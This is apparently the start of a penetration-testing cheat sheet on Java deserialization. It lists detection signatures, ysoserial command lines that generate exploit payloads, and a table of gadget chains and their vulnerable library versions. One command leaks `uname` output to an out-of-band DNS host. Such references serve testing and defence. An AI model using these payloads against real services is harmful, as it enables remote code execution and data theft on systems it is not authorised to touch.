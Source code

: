 # Java Deserialization

> Java serialization is the process of converting a Java object's state into a byte stream, which can be stored or transmitted and later reconstructed (deserialized) back into the original object. Serialization in Java is primarily done using the `Serializable` interface, which marks a class as serializable, allowing it to be saved to files, sent over a network, or transferred between JVMs.

## Summary

* [Detection](#detection)
* [Tools](#tools)
    * [Ysoserial](#ysoserial)
    * [Burp extensions using ysoserial](#burp-extensions)
    * [Alternative Tooling](#alternative-tooling)
* [YAML Deserialization](#yaml-deserialization)
* [ViewState](#viewstate)
* [References](#references)

## Detection

* `"AC ED 00 05"` in Hex
    * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
    * `00 05`: STREAM_VERSION. The serialization version.
* `"rO0"` in Base64
* `Content-Type` = "application/x-java-serialized-object"
* `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**

| Payload             | Authors                                | Dependencies |
| ------------------- | -------------------------------------- | --- |
| AspectJWeaver       | @Jang                                  | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711            | bsh:2.0b5 |
| C3P0                | @mbechler                              | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                             | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                      | clojure:1.8.0 |
| CommonsBeanutils1   | @frohoff                               | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections2 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections3 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections4 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections5 | @matthias_kaiser, @jasinner            | commons-collections:3.1  |
